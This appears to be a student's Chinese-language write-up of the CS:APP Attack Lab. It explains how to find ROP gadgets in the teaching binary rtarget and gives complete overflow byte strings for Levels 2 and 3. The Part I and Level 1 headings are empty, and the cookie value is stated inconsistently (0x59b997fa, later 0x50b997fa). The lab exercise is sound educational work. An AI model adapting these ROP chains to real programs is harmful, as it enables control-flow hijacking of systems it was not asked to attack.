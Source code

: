 # Attack Lab
## 前期准备
## Part I
### Level 1
## Part II
### Level 2
cookie值位于0x60444，通过以下命令查询得
```bash
x /32xb $rip+0x202ce2
```
得到cookie值为

    0x59b997fa

按照与phase2相同的思路，需要将0x59b997fa填入%rdi中，再执行touch2函数。但是由于rtarget中只能使用movq,popq,ret,nop指令，所以思路如下:

```bash
pushq 0x59b997fa
popq %rax
ret
movq %rax,%rdi
ret
```

 ```
 movq %rax,%rdi
 ```
指令对应的十六进制数为48 89 c7，使用

```bash
objdump -d rtarget > rtarget.asm
```
得到rtarget的反汇编代码，查询该十六进制数串找到 setval_426 对应得序列可用

```bash
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq  
```

于是

```
 movq %rax,%rdi
```

起始地址为0x4019c3+0x2=0x4019c5

同理

```
popq %rax
```
对应的十六进制数串为58，寻找得

```
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq 
```
可以使用，起始地址为0x4019ad-0x2=0x4019ab

因此，最终应该填入getbuf函数为
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

### Level 3

ROP的level3与CI的level3一致，要对参数传入一个数组，也即栈中要包含该数组。那么思路应该是
```
getbuf帧段:
    movq $rsp地址+0x8,%rdi
    pushq touch3地址
    ret
test帧段:
    getbuf首地址
    cookie对应数组
```
其中cookie值为0x50b997fa

那么根据rtarget中可以使用的命令，以及在rtarget中寻找到

```
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq   
```

可以进行地址相加，那么应该得到的在rtarget下栈中所存代码大致应该为

```
movq %rsp,%rsi
ret 
放置0x8
popq %rdi
ret 
lea (%rdi,%rsi,1),%rax
ret 
movq %rax,%rdi
ret 
touch3的地址
cookie对应的数组
```
但是由于rtarget中不支持大部分注入movq %rsp,%rsi的操作，所以需要以下很繁琐的步骤，如下所示，那么所得到的十六进制数字串为

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00 <-movq %rsp,%rax 函数addval_190,此处为%rsp指针所指向的地方
c5 19 40 00 00 00 00 00 <-movq %rax,%rdi 函数setval_426
ab 19 40 00 00 00 00 00 <-popq %rax
48 00 00 00 00 00 00 00 <-偏移量，原本cookie与%rsp相差0x50，但因为上面有一个popq，所以偏移量变为0x48
dd 19 40 00 00 00 00 00 <-movl %eax,%edx 函数getval_481
69 1a 40 00 00 00 00 00 <-movl %edx,%ecx 函数getval_311
13 1a 40 00 00 00 00 00 <-movl %ecx,%esi 函数addval_436
d6 19 40 00 00 00 00 00 <-lea (%rdi,%rsi,1),%rax 函数add_xy
c5 19 40 00 00 00 00 00 <-movq %rax,%rdi 函数setval_426
fa 18 40 00 00 00 00 00 <-touch3
35 39 62 39 39 37 66 61 <-cookie对应字符串值
00
```
